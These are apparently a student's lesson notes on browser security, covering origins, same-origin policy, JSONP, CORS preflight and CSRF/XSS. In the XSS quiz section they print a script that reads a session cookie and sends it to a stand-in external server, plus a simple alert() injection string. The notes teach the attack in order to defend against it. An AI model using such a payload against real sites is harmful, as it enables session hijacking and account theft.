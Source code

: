 # Lesson 12: security

### Security intro
### Origins
* An origin is made up of three parts:
  * Data Scheme: `https://`
  * Hostname: `www.udacity.com`
  * Port: `:443`
* cross-origin fetch requests: you can make the request, but you just canNOT read the response

### Origins 2
* same-origin policy: browser-enforced, the client will NOT let you send off requests
* eg different resources:
  * you can't inspect a image within a canvas element
  * you can't see content of script tag that includes a cross-origin resource

### Overriding same origin policy
* CORS
* JSONP: JSON with padding, returns a script containing the data
  * script from other origin will execute and share the same environment with your own script
  * JSONP api requires you to includes the function name as query parameter
* example:
  ```js
  // your personal site: mycourses.com
  // make a fetch request to udacity.com to see all your enrolled courses
  fetch("https://api.udacity.com/courses?status=enrolled")
  // then, the return data will be ["course1", "course2", ...]
  // however, this will fail b/c CORS policy, your host is different from udacity host

  // to solve this, we use JSONP (this the api supports JSONP)
  <script src="https://api.udacity.com/courses?status=enrolled&callback=f">
  // Cross-origin script access allowed!
  // the server will return all data, wrapped in a function call
  // f(["course1", "course2", ...])
  // note: you need to create the call back function 'f'
  ```

### CORS
* CORS headers allow cross-origin requests
  ```
  // REQUEST: use preflight requests
  OPTIONS /
  Referer: mycourses.com

  // RESPONSE: only headers are sent
  200 OK
  Access-Control-Allow-Origin: mycourses.com

  // REQUEST: with CORS header
  GET /courses?status=enrolled
  Host: api.udacity.com
  Referer: mycourses.com

  // RESPONSE: with CORS header
  HTTP/1.1 200 OK
  Date: Mon, 20 May 2017 00:12:32 GMT
  Access-Control-Allow-Origin: mycourses.com
  Connection: Keep-Alive
  Content-Type: application/xml
  ```
* CORS has been adopted by the API providers as a way to share resources

### Quiz: preflight request with CORS
* most GET request is not preflight

### Quiz: preflight request with CORS 2
```js
fetch('http://www.example.com", {
  method: "POST",
  mode: "cors",
  headers: { "X-FOrwarded-For": "www.google.com"} // this line causes request to be preflighted
});
```

### Quiz: preflight request with CORS 3
```js
fetch('http://www.example.com", {
  method: "PUT", // this line causes request to be preflighted
  mode: "cors",
  headers: { "Accept": "text/html"}
});
```
### Security Exploit - CSRF
* requests that looks like they came from a form will not be preflighted
* CSRF - cross-site request forgery
* CSRF token

### Quiz: CSRF
### security Exploit - XSS
* XSS: cross-site scripting, when JS is injected into a website and can access its data
* eg: input box (that is not secured or validated):
  * `MyName<script>alert('Code was evaluated!');</script>`
  * the code will be executed without the user's knowledge
  * hence: ALWAYS validate your user's input from server-side

### Quiz: XSS
* to get session id's value:
  `document.cookie.slice(document.cookie.indexOf('SESSION_ID')).split('=')[1];`
* to inject javascript into input field:
  `<script>fetch('http://your-own-server/?key=<cookie_value_above>');</script>`
* checkout https://xkcd.com/327/: ![xkcd.com/327](https://imgs.xkcd.com/comics/exploits_of_a_mom.png "xkcd.com/327")

### Security outro
* back-end needs to implement validation
* there's always potential risk, so better to protect your self from CSRF or XSS

### Course outro
